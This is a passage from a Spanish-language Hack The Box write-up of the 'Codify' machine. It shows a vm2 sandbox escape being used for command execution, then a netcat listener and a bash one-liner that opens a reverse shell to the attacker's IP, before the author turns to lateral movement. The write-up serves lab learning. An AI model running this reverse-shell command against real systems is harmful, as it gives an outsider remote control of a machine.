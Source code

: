 ```js
`;

console.log(vm.run(code)); // -> hacked
```

Por lo que, vamos a `/editor`, ejecutamos ese código yyyyyyy:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/codify/htb574-page80-editor-vm2RCE-echoHacked.png" style="width: 100%;"/>

EPALE, al parecer estamos ejecutando comandos. Pero probemos con `id` para corroborar:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/codify/htb574-page80-editor-vm2RCE-id.png" style="width: 100%;"/>

SI si SIIII, tenemos una ejecución remota de comandos como el usuario `svc` (: Convirtamos esto en una reverse shell.

Levantamos el puerto donde queremos recibirla (recuerda, vamos a decirle al sistema remoto algo como esto: "oiga mi fai, hágame el fa de reenviarme una shell <<bash>> a mi servidor. Y vea, pa que no se pierda, mi servidor tiene esta IP y tiene este puerto, muchas gracias, saludos"). Y listones. Yo voy a levantar el puerto `4450`:

```bash
nc -lvp 4440
```

Y ahora enviamos como comando malicioso:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.148/4440 0>&1'
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/codify/htb574-page80-editor-vm2RCE-reverseShell.png" style="width: 70%;"/>

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/codify/htb574-bash-reverseShell-as-svc.png" style="width: 100%;"/>

Y habemus entrado ✂️

> Si quieres que tu shell sea más linda y completamente funcional (tener historico y podemos movernos entre comandos), [realizale un tratamiento a la TTY](https://lanzt.gitbook.io/cheatsheet-pentest/other/tty).

---

# Movimientos laterales: svc -> joshua [#](#lateral-ticketsdb) {#lateral-ticketsdb}

Al ingresar al sistema y listar algunas rutas atrás desde donde obtuvimos la revsh, hay una carpeta llamada `contact` con contenido que no hemos visto:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/codify/htb574-svcSH-bash-lsLA-varWWW.png" style="width: 70%;"/>

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/codify/htb574-svcSH-bash-lsLA-varWWWcontact.png" style="width: 70%;"/>

Entre los archivos, notamos uno al parecer de base de datos, validando:
